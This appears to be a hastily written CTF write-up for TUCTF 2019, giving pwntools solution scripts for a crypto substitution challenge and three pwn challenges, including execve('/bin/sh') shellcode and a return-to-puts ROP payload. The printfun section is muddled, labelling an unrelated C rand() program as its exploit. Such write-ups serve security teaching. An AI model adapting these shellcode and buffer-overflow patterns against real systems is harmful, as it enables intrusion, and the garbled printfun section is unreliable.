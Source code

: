 # TUCTF 2019 

![image](https://user-images.githubusercontent.com/25066959/70835878-744da180-1dcc-11ea-9016-c3a200a13f30.png)

This is a shitty writup I did this days after and the TUCTF site was down so no points and I didnt write down the flags... So solutions only with no real explenation... Im just trying to get more of these out there and I really let the ball drop this time.    


Title                         | Category     
----------------------------- | ------------
Crypto Infinit		      | Crypto	     
3step					  | Pwn   
printfun				  | Pwn 
pancakes				  | Pwn

# Crypto Infinit (crypto)    
@Corb3nik for the solution and code 
```python 
#!/usr/bin/env python2
​
from pwn import *
import string
​
p = remote("chal.tuctf.com", 30102)
​
# Level 0 - 4
for i_ in range(5):
​
    p.sendlineafter("Give me text:", string.ascii_uppercase[::-1])
    p.recvuntil("encrypted is ")
    mapping = dict(zip(p.recvline().strip().split(" "), string.ascii_uppercase[::-1]))
​
    for i in range(50):
        p.recvuntil("Decrypt ")
        encrypted = p.recvline().strip().split(" ")
​
        answer = ""
        for k in encrypted:
            answer += mapping[k]
​
        p.sendline(answer)
​
​
# Level 5
plaintext = ''.join([c * 8 for c in string.ascii_uppercase])
p.sendlineafter("Give me text:", plaintext)
p.recvuntil("encrypted is ")
​
mapping = {}
enc = p.recvline().strip().split(" ")
for i in range(len(enc)):
    mapping[i % 8] = mapping.get(i % 8, {})
    mapping[i % 8][enc[i]] = plaintext[i]
​
print mapping
for i in range(50):
    p.recvuntil("Decrypt ")
    encrypted = p.recvline().strip().split(" ")
​
    answer = ""
    for i, k in enumerate(encrypted):
        answer += mapping[i % 8][k]
​
    p.sendline(answer)
​
# for i_ in range(5):
​
#     p.sendlineafter("Give me text:", string.ascii_uppercase[::-1])
#     p.recvuntil("encrypted is ")
#     mapping = dict(zip(p.recvline().strip().split(" "), string.ascii_uppercase[::-1]))
​
#     for i in range(50):
#         p.recvuntil("Decrypt ")
#         encrypted = p.recvline().strip().split(" ")
​
#         answer = ""
#         for k in encrypted:
#             answer += mapping[k]
​
#         p.sendline(answer)
​
p.sendlineafter("Give me text:", "ABAB")
p.interactive()
```     

# 3step (pwn)    

```python
#!/usr/bin/python
from pwn import *
import sys
#context.log_level = "debug"
#p = process("./3step")
p = process("nc chal.tuctf.com 30504".split(" "))
raw_input("waiting... ")
p.readline()
p.readline()
heap = int(p.readline(), 16)
stack = int(p.readline(), 16)
print "heap = {}".format(hex(heap))
print "stack = {}".format(hex(stack))

code = """
xor eax, eax
mov ebx, {}
xor ecx, ecx
xor edx, edx
mov al, 0x0b
int 0x80""".format(stack)
shellcode = asm(code)
print len(shellcode)
binsh = "/bin/sh\x00"
heap = p32(heap)
tot = ""

tot += shellcode + (0x12 - len(shellcode)) * 'a'
tot += binsh + (0x10 - len(binsh)) * 'a'
tot += heap
p.recv()
p.send(tot)
#p.send(shellcode)
#p.send("/bin/sh\x00")
#p.send(p32(heap))
p.interactive()


p.kill()
```

# printfun (pwn)
this challenge was a format sring vulnerability 

```python
#!/usr/bin/python
# ebp - 0xc
# ebp - 0x10
```    
output:
```
# 6
4
%6$s
# 7
60
\x95\xa4\x14F\xfe\xfe��M\x96UF\x11Ǧ\x89�#\x18X\xb7\x87\x84$\xbb�
                                                                \xaaƓ\x1c@\x17?�U\x04i
\x07�Ub)\x0b\xb7\xb6\x03y\xbe\xac\x1d7\x7f\x97\xfe
```    
exploit:   
```python
#include <stdio.h>
#include <stdlib.h>

int main()
{
  int n;
  scanf("%d", &n);
  srand(n);
  printf("%d\n", rand());
  return 0;
}
```    

# Pancakes (Pwn)
I remember being given the password it was password the payload is this:   
```python
#!/usr/bin/python
from pwn import *
payload = 'a' * (0x30-4)
payload += p32(0x8049060) # puts
payload += p32(0x80492cd) # pwnme
payload += p32(0x804c060) # flag
print payload
```    
